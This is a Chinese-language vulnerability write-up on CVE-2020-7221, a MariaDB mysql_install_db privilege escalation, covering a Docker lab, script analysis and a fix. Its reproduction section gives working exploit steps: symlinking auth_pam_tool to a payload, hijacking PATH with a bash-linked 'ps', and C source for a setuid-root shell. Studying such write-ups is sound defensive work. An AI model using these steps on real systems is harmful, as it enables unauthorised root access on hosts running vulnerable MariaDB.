 ```yaml
---
title: "（CVE-2020-7221）Mariadb 提权漏洞"
id: zhfly3014
---
```


# （CVE-2020-7221）Mariadb 提权漏洞

## 一、漏洞简介

MariaDB 10.4.7到10.4.11中的mysql_install_db允许将特权从mysql用户帐户升级到root用户，因为chown和chmod的执行不安全，如对auth_pam_tool_dir / auth_pam_tool的chmod 04755的symlink攻击所证明的那样。注意：这不会影响Oracle MySQL产品，该产品以不同的方式实现mysql_install_db。

## 二、漏洞影响

Mariadb 10.4.7到10.4.11

## 三、复现过程

#### docker环境搭建：

> 1.  docker pull mariadb:10.4.8
> 2.  docker run -it 2ef19234ff46 /bin/bash

#### 漏洞分析

首先定位漏洞点。

```
find / -name "mysql_install_db" 
```

![image](../img/923052014efeeccd82500cd9a126b9df.png)

在bash脚本上下文中，如果$user被定义则能进入「配置不当」漏洞点。

```
chown $user "$pamtooldir/auth_pam_tool_dir" `chmod 0700 “$pamtooldir/auth_pam_tool_dir”` 
```

这里配置了auth_pam_tool_dir目录的归属权和所有权，权限归属于$user。 （这里是可控点之一）

```
chown 0 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" `chmod 04755 “$pamtooldir/auth_pam_tool_dir/auth_pam_tool”` 
```

这里配置了auth_pam_tool文件为0（root）所有权，4755文件权限（4为suid权限）。想要进入这个漏洞点需要$srcdir变量值长度为0才能触发。

关于suid属性：

> SUID属性一般用在可执行文件上，当用户执行该文件时，会「临时拥有该执行文件的所有者权限」。一旦程序拥有SUID权限的话，运行该程序时会以最高权限运行。

##### 回溯 $srcdir 与 $user

1.  $user

![image](../img/ecbfd45e2034d988750cf4f31db2709c.png)

在脚本传递args参数时可控制$user变量。

1.  $srcdir

![image](../img/bc31a66978677d1a394e136e414fb650.png)

也在初始化操作时可控制变量，初始化时为空。

那么想要进入这个漏洞点需要$srcdir为空，$user需要设置值。

结合上文描述使用此命令才能触发漏洞点：

```
./mysql_install_db --user=mysql 
```

#### 漏洞复现

寻找suid属性的程序

```
find /* -perm -u=s -type f 2>/dev/null 
```

搜索到的suid属性程序「auth_pam_tool」替换成我们的恶意suid程序。

```
1\. rm auth_pam_tool
2\. ln -s /root/pwn auth_pam_tool
3\. export PATH=.:$PATH
4\. ln -s /bin/bash ps 
```

编写一个具有suid权限的恶意程序：

```
#include <unistd.h>
#include <stdlib.h>
int main(void)
{
    setuid(0);
    setgid(0);
    system("ps");
    return 0;
} 
```

![image](../img/8624d17ebbd3c35b9c97add491bec23f.png)

切换回root，在root权限下运行mysql_install_db脚本（触发修改chmod命令）

![image](../img/f3805060c829c247ac35290d3d318b2b.png)

再回到mysql用户权限下执行auth_pam_tool

![image](../img/5bd62d33121091073ccb03e84b24f073.png)

提权成功。

可以看到这个漏洞是由于suid与目录权限设置不当，才导致被提权利用的风险。建议在修复中设置auth_pam_tool_dir目录权限为root所有：

```
root:mysql  0750 /usr/lib/mysql/plugin/auth_pam_tool_dir 
```

## 参考链接

> https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247486415&idx=1&sn=0e413fdfd22f21580e0c70251e53a7cb&chksm=fe7a2f57c90da64190913e4f40d5f854dcc0c794ac988ce667f1ba0d4a262575b5c4a67b65a1&mpshare=1&scene=1&srcid=&sharer_sharetime=1582037009796&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=36a0b0f21e7aca1c7ade662e9184d730b9617a817ebf64e5bbc6048142797fa6b31c917039b5d1308f1d16cf77ba9f43d541a1bd197ead9b66bb01969c4f1bf2c54e19862f1f9bc1f449495c27554e90&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AUm27aB0HayWjmPDBsXi7NU%3D&pass_ticket=VkgA7hk5gRtBGyr1o4%2Bh5PlNbfx095JODofk2U16AOMJewFkqv%2BeZkeziLm0G2um